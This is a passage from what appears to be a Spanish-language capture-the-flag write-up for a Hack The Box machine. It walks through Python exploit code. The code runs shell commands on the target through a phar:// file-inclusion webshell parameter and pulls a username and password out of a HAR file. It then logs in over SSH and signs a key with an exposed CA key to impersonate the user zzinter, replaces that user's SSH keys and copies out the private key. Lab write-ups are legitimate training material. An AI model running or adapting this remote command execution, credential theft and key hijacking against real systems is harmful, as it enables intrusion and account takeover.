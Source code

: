 
Con el nombre del comprimido ya conseguido, en la función **get_cred** consigue las credenciales necesarias para luego, en la función **make_cert**  crear la clave privada del usuario **zzinter** del contenedor

```python3
def get_cred(zip_file):
	# Busca el archivo .zip con mas peso, para luego descomprimirlo
	unzip_cred = "unzip -o $(find ./uploads -type f -size +1M -name \"*.zip\")"
	
	url_unzipcred = main_url + "?page=phar://" + zip_file + "/test&cmd=" + quote(unzip_cred)
	
	r = s.get(url_unzipcred)

	# Añade como delimitador los signos '=&"' y pilla los valores de las comunas 5 y 7 que serian el nombre de usuario y la contraseña
	get_cred = "cat itrc.ssg.htb.har | grep \"&pass\" | awk -F '[=&\"]' '{print \"Username: \"$5,\"Password: \" $7}' > credentials && cat credentials"

	url_getcred = main_url + "?page=phar://" + zip_file + "/test&cmd=" + quote(get_cred)

	r = s.get(url_getcred)
	# Consigue el nombre y la contraseña mediante expresiones regulares
	username = re.findall('Username: (.*?) ',r.text)[0]

	password = re.findall('Password: (.*?)\n',r.text)[0]

	return username, password

def make_cert(username, password):

	client = paramiko.SSHClient()

	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
	# Accede con las credenciales obtenidas del usuario
	client.connect('10.10.11.27', username=username, password=password)
	# Crea la clave privada y publica del usuario
	client.exec_command('ssh-keygen -f ~/.ssh/id_rsa -N ""')

	time.sleep(2)
	# Genera la certificación con la clave privada de la entidad certificador (CA) a nombre del usuario zzinter
	client.exec_command('ssh-keygen -s ~/decommission_old_ca/ca-itrc -I 1 -n zzinter .ssh/id_rsa.pub')
	# Mediante la conexión via SSH al usuario zzinter indicando el certificado y nuestra clave privada, ejecutamos
	# direcamente el comando para crear la clave privada y publica, para luego crear el archivo 
	# authorized_keys y así conectarnos luego utilizando la clave privada y poder operar de forma mas comoda.
	client.exec_command('ssh -o StrictHostKeyChecking=no -o CertificateFile=~/.ssh/id_rsa-cert.pub -i ~/.ssh/id_rsa zzinter@127.0.0.1 rm -r .ssh\; mkdir .ssh\; ssh-keygen -f .ssh/id_rsa -N \\"\\"\; cp .ssh/id_rsa.pub .ssh/authorized_keys')

	time.sleep(4)
	# Mostramos el contenido de la clave privada del usuario zzinter
	stdin, stdout, stderr = client.exec_command('ssh -o StrictHostKeyChecking=no -o CertificateFile=~/.ssh/id_rsa-cert.pub -i ~/.ssh/id_rsa zzinter@127.0.0.1 cat .ssh/id_rsa')
	# Para luego guardarlo
	priv_key = stdout.read().decode('utf-8')
	# Y añadir el contenido a un nuevo archivo con nombre 'id_rsa'
	with open('id_rsa', 'w') as f:
		f.write(priv_key)
	
	os.system('chmod 600 id_rsa')
	# Cerramos la conexión
```
